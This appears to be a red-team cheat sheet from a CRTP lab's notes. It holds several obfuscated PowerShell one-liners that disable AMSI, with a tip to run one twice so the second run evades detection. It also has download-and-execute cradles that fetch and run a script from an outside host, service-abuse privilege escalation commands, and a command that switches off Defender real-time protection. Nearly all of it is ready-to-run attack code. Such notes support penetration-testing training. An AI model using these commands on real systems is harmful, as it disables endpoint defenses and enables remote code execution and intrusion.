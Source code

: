 #### AMSI Bypasses
1. CRTP Bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

-> Run twice (the first will be detected but it will decimate AMSI so the second one would run perfectly) 
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

2. Modern Bypass 1 (2023)
```
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

3. Modern Bypass 2 (2023)
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

- Download-Execute Cradle
`iex (New-Object Net.WebClient).DownloadString('http://192.168.100.57/adPEAS.ps1')`

`iex(iwr'http://192.168.100.57/adPEAS.ps1')`

#### Local PrivEsc
1. Abusing service permissions
`Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose`

2. Abusing unquoted service path
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss.exe' -UserName 'dcorp\studentx' -Verbose`

3. Abusing service executable (binary) permissions
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss Web Server\abyssws.exe' -UserName 'dcorp\studentx' -Verbose`

#### Tamper with Host Defenses as an Administrator
- Disable Defender
`Set-MpPreference -DisableRealtimeMonitoring $true`

